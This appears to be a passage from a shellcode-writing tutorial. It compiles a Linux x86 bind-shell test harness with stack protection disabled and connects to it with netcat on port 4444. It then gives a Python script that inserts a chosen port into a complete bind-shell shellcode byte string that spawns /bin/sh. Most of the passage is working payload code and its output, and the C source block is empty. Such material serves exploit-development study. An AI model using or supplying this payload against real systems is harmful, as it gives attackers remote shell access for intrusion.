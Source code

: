 ```c
```
Compile.:
```shell
gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
```
Now it should work!

Run the file:
```shell
./shellcode
Shellcode Length:  94
```
Connect and issue a command:
```shell
nc -v 127.0.0.1 4444
Connection to 127.0.0.1 4444 port [tcp/*] succeeded!
who
pwoer    tty7         Dec 11 10:13 (:0)
```
It works!

Now we have to make the port adjustable.  In order to do that we'll just write a python script that replaces the port in the shellcode with whatever the user inputs and then outputs the new shellcode.
```python
import struct
import sys

def main():
	if len(sys.argv) != 2:
		print "Usage: {0} PORT".format(sys.argv[0])
		exit()

	port = int(sys.argv[1])
	print port	
	# bounds checking
	if not (0 <= port <= 65535):
		print "That's not a real port number!"
		exit()

	# check well known ports
	if port <= 1024:
		print "Reminder: Well known port needs to be run as root"

	port = r'\x' + r'\x'.join(x.encode('hex') for x in struct.pack('!H', port))	

	# check nulls
	if r'\x00' in port:
		print 'Null in that port number. Try again.'
		exit()

	shellcode = "\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\xb0\\x66\\xb3\\x01\\x51\\x53\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x89\\xc7\\xb0\\x66\\x43\\x52\\x66\\x68" + port + "\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x57\\x89\\xe1\\xcd\\x80\\x50\\x57\\x89\\xe1\\xb0\\x66\\x43\\x43\\xcd\\x80\\x50\\x50\\x57\\x89\\xe1\\xb0\\x66\\x43\\xcd\\x80\\x89\\xc3\\x31\\xc9\\xb1\\x02\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x89\\xd1\\xb0\\x0b\\xcd\\x80"

	print "Shellcode: " + shellcode
	
if __name__=="__main__":
	main()
```
This successfuly outputs the new shellcode with the desired port!
